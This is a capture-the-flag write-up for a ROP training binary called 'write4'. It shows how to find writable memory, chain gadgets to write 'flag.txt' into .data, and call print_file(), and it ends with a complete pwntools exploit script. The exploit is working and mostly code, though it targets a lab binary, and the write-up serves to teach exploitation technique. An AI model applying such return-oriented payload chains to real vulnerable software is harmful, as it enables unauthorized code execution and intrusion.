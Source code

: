# Write4
In this challenge, we are given a function to open arbitrary files (`print_file()`), with the goal of opening `flag.txt`. 
The difficult part is that the string `flag.txt` is nowhere to be found in the binary. 
We must thus use ROP to write the string to memory ourselves.

To solve this challenge, we must complete the following steps:
- Identify a memory location where we can write our string to.
- Write `flag.txt`.
- Put the pointer to our string in `rdi`.
- Call `print_file()`.

## Identifying suitable memory
Before we can write our string to memory, we must first identify some memory that we can write to without breaking anything. We can use radare2 to get a view of the memory sections:
```
$ r2 write4 
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```
Here we need to pick a segment with `rw`. Let's pick `.data` at  `0x601028` (`.got` and `.got.plt` could technically work, but is not as good of a choice as we might overwrite crucial memory. `.bss` could also be fine but only has room for 8 characters, so a null terminator won't fit after our string).

## Write to memory
Next we will go looking for a gadget that allows for writing to memory such as `mov [reg], reg`. This binary has two of such gadgets:
```
$ ropper -f write4 | grep mov

...
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
...
0x0000000000400628: mov qword ptr [r14], r15; ret; 
...
```
Both of these gadgets could be used for this challenge. We will use the one at `0x400629`, but the other one would have arguably been better as it allows for writing 64 bits instead of 32.
With this gadget, we can write to a pointer in `rsi` with the contents of `rdi/edi`. We will thus also need gadgets to fill `rsi` and `rdi/edi`.
Using ropper we can again find gadgets for those as well:
```
0x0000000000400691: pop rsi; pop r15; ret;
0x0000000000400693: pop rdi; ret;
```
Note that our gadget for `rsi` also pops to `r15`. This means we will also need to provide some garbage value that will go into `r15`.
We can now write a function to write 4 bytes to a writable address using these gadgets as follows:
```
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload
```
We can use this function to write `flag.txt` to our writable address as follows (note that it also seem to work without supplying the null bytes):
```
writable_address = 0x601028 # in .data segment

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit
```

## Write the memory address to `rdi`
To put the address of our written string into `rdi`, we can reuse the same gadget from before.
```
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
```

## Call `print_file()`
As the final step of our exploit, we simply need to call `print_file()`. We can do this by reusing the PLT trampoline trick from the previous challenge; taking the jump in the PLT to the function:
```
print_file_plt = 0x400510
payload += p64(print_file_plt)
```
The script for the complete exploit is thus as follows:

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./write4"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Writes a dword. Alternatively, a gadget to write a qword can be used.
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload

io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x400693
print_file_plt   = 0x400510

payload = b"A" * 40

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit

# Stage 2, put writable_address in rdi and call print_file()
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```

